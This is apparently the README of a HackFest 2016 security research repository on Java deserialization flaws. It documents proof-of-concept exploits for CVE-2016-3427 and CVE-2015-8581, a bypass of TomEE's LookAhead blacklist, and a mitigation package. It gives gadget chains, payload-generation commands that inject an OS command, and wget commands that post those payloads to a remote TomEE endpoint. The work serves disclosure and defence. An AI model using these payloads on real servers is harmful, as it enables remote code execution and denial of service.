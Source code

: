 # Fixing the Java Serialization mess
Supporting source code for a [HackFest 2016 presentation](https://hackfest.ca/en/speakers/#ernst)

![Bonhomme Carnaval, Duke-style](bonhomme-duke.svg "Bonhomme Carnaval, Duke-style")

## Installation
```bash
mvn install
```

## Content

### POC for [CVE-2016-3427](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3427)
Class `com.salesforce.trust.s11n.exploit.JmxClient`
Tries to:
1. Connect to the provided JMX server using the *long* connection string syntax
2. Connect to the provided JMX server using the *RMI* connection string syntax.
  * Sends the provided user name and password as credentials.
  * Sends a [Malicious Set instance](https://gist.github.com/coekie/a27cc406fc9f3dc7a70d) as credentials, in order to cause a Denial of Service attack on the JMX server. Only works when the server runs Java 8 u 77 (or earlier)
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.JmxClient hostName registryPort jmxPort userName
```

### POC for Denial of Service attack
Class `com.salesforce.trust.s11n.exploit.JreOutOfMemory`
Throws `OutOfMemoryError` when deserializingin doctored instances of various well known classes
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.JreOutOfMemory
```

### POC for [CVE-2015-8581](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-8581)
Class `com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass`
Generates a 'regular' gadget that can be used on older versions of [Apache TomEE](http://tomee.apache.org/apache-tomee.html) (before LookAhead validation was added, 1.7.3 or older)
#### Gadget chain: 
```
ObjectInputStream.readObject() 
  Throwable.readObject()
    List.isEmpty()
      (Proxy) EventHandler.invoke()
        Method.invoke()
          ProcessBuilder.start()
```
#### Usage:
Generate a binary file containing an OS command injection for `/usr/bin/gnome-calculator`:
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass regular /usr/bin/gnome-calculator
```
Send the file to the remote TomEE server:
```bash
wget --post-file tomee1.ser http://remote-server:8080/tomee/ejb
```

### POC for bypassing [LookAhead Mitigation](http://www.ibm.com/developerworks/library/se-lookahead/) in [Apache TomEE](http://tomee.apache.org/apache-tomee.html) version 1.7.4
Class `com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass` can also generate a different gadget that can bypass TomEE mitigation.
TomEE is secure by default, since everything is black-listed when you install it.
#### File `conf/system.properties`
Upon install, the file contains these 2 lines:
```
tomee.serialization.class.blacklist = *
# tomee.serialization.class.whitelist = my.package
```

To enable OpenEJB, we want to restrict the black list to known malicious classes, and we want to include our legitimate classes in the white list:
```
tomee.serialization.class.blacklist = java.lang.ProcessBuilder
tomee.serialization.class.whitelist = bonhomme.Carnaval, java, org.apache
```

This configuration provides an adequate mitigation against [CVE-2015-8581](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-8581), however, it can be bypassed by this new gadget:

#### Gadget chain: 
```
ObjectInputStream.readObject()
  EventImpl.readObject()
    OwbCustomObjectInputStream.readObject()
      Throwable.readObject()
        List.isEmpty()
          (Proxy) EventHandler.invoke()
            Method.invoke()
              ProcessBuilder.start()
```
#### Usage:
Generate a binary file containing an OS command injection for `/usr/bin/gnome-calculator` (note the `bypass` flag):
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass bypass /usr/bin/gnome-calculator
```
Send the file to the remote TomEE server:
```bash
wget --post-file tomee2.ser http://remote-server:8080/tomee/ejb
```

### POC for LookAhead Bytecode Blacklist
#### Input validation flow
![Flow chart](flow-chart.svg "Flow chart")
#### Code
Package `com.salesforce.trust.s11n.mitigation`